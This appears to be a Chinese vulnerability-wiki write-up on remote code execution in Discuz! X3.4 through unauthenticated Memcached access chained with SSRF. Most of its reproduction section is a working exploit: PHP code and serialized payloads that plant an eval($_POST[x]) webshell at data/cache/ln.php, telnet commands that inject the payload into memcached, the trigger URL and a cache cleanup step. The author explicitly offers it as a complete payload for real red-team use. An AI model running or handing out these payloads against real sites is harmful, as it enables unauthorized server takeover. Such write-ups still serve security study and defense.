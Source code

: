 Discuz! X3.4 Memcached未授权访问导致的rce
=========================================

一、漏洞简介
------------

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId25.jpg)

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

    forum.php?mod=ajax&inajax=yes&action=getthreadtypes
    ./source/module/forum/forum_ajax.php

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId26.png)

    ./template/default/common/footer_ajax.htm

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId27.png)

    ./source/function/function_core.php

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId28.png)

    ./source/function/function_core.php

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId29.png)

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/e";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

然后telnet链接memcached

    telnet 1.1.1.1 11211
    set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId31.png)

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成\*\*/data/cache/ln.php\*\*

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId32.png)

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId33.png)

最后一定要恢复缓存

Delete Vtfbsm\_setting

成功写入文件

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4Memcached未授权访问导致的rce/media/rId34.png)

参考链接
--------

> https://xz.aliyun.com/t/2018
